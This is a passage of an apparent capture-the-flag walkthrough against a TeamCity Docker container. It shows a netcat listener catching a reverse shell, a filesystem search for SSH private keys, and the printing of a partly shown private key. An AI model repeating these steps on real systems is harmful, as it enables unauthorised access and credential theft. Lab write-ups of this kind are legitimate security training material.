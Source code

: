 ```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.13 44312
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
   Welcome to TeamCity Server Docker container

 * Installation directory: /opt/teamcity
 * Logs directory:         /opt/teamcity/logs
 * Data directory:         /data/teamcity_server/datadir

   TeamCity will be running under 'tcuser' user (1000/1000)

tcuser@647a82f29ca0:~/bin$ whoami
whoami
tcuser
```

# User as john

## Container Oopsie

I did some searching in this obvious container and came across an SSH key.

```bash
tcuser@647a82f29ca0:~$ lsblk
lsblk
NAME   MAJ:MIN RM SIZE RO TYPE MOUNTPOINT
sda      8:0    0  11G  0 disk 
├─sda1   8:1    0   1M  0 part 
├─sda2   8:2    0  10G  0 part /opt/teamcity/logs
└─sda3   8:3    0   1G  0 part [SWAP]
tcuser@647a82f29ca0:~$ find / -name "id_rsa" 2>/dev/null
find / -name "id_rsa" 2>/dev/null
/data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa
tcuser@647a82f29ca0:~$ cat /data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa
<fig/projects/AllProjects/pluginData/ssh_keys/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAlk2rRhm7T2dg2z3+Y6ioSOVszvNlA4wRS4ty8qrGMSCpnZyEISPl
htHGpTu0oGI11FTun7HzQj7Ore7YMC+SsMIlS78MGU2ogb0Tp2bOY5RN1/X9MiK/SE4liT
njhPU1FqBIexmXKlgS/jv57WUtc5CsgTUGYkpaX6cT2geiNqHLnB5QD+ZKJWBflF6P9rTt
zkEdcWYKtDp0Phcu1FUVeQJOpb13w/L0GGiya2RkZgrIwXR6l3YCX+mBRFfhRFHLmd/lgy
/R2GQpBWUDB9rUS+mtHpm4c3786g11IPZo+74I7BhOn1Iz2E5KO0tW2jefylY2MrYgOjjq
5fj0Fz3eoj4hxtZyuf0GR8Cq1AkowJyDP02XzIvVZKCMDgVNAMH5B7COTX8CjUzc0vuKV5
iLSi+vRx6vYQpQv4wlh1H4hUlgaVSimoAqizJPUqyAi9oUhHXGY71x5gCUXeULZJMcDYKB
Z2zzex3+iPBYi9tTsnCISXIvTDb32fmm1qRmIRyXAAAFgGL91WVi/dVlAAAAB3NzaC1yc2
EAAAGBAJZNq0YZu09nYNs9/mOoqEjlbM7zZQOMEUuLcvKqxjEgqZ2chCEj5YbRxqU7tKBi
NdRU7p+x80I+zq3u2DAvkrDCJUu/DBlNqIG9E6dmzmOUTdf1/TIiv0hOJYk544T1NRagSH
sZlypYEv47+e1lLXOQrIE1BmJKWl+nE9oHojahy5weUA/mSiVgX5Rej/a07c5BHXFmCrQ6
dD4XLtRVFXkCTqW9d8Py9BhosmtkZGYKyMF0epd2Al/pgURX4URRy5nf5YMv0dhkKQVlAw
fa1EvprR6ZuHN+/OoNdSD2aPu+COwYTp9SM9hOSjtLVto3n8pWNjK2IDo46uX49Bc93qI+
IcbWcrn9BkfAqtQJKMCcgz9Nl8yL1WSgjA4FTQDB+Qewjk1/Ao1M3NL7ileYi0ovr0cer2
...
-----END OPENSSH PRIVATE KEY-----
```
